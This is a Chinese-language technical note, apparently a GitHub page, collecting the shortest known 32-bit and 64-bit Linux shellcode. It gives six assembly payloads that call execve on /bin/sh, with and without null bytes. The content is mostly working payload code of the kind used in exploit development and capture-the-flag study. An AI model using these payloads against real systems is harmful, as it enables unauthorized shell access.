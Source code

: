 # Linux_shellcode总结

在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写

# 32位

有"\x00"最短 20 byte

```assembly
shellcode= '''            
xor ecx,ecx               
mul ecx                   
mov al,0xb                
push 0x68732f             
push 0x6e69622f           
mov ebx,esp               
int 0x80                  
'''                       
shellcode=asm(shellcode)
```

无"\x00"最短 21 byte

```assembly
xor ecx,ecx
mul ecx
push eax
mov al,0xb
push 0x68732f2f   
push 0x6e69622f   
mov ebx,esp
int 0x80
```

标准shellcode 23 byte

```assembly
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
mov al,0xB
int 0x80
```

# 64位

最短有"\x00" 22 byte

```assembly
xor rsi,rsi
mul esi
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

最短无"\x00" 23 byte

```assembly
xor rsi,rsi
mul esi
push rax
mov rbx,0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

标准shellcode 31 byte

```assembly
xor    rdi,rdi
xor    rsi,rsi
xor    rdx,rdx
xor    rax,rax
push   rax
mov rbx,0x68732f2f6e69622f
push   rbx
mov    rdi,rsp
mov    al,0x3b
syscall
```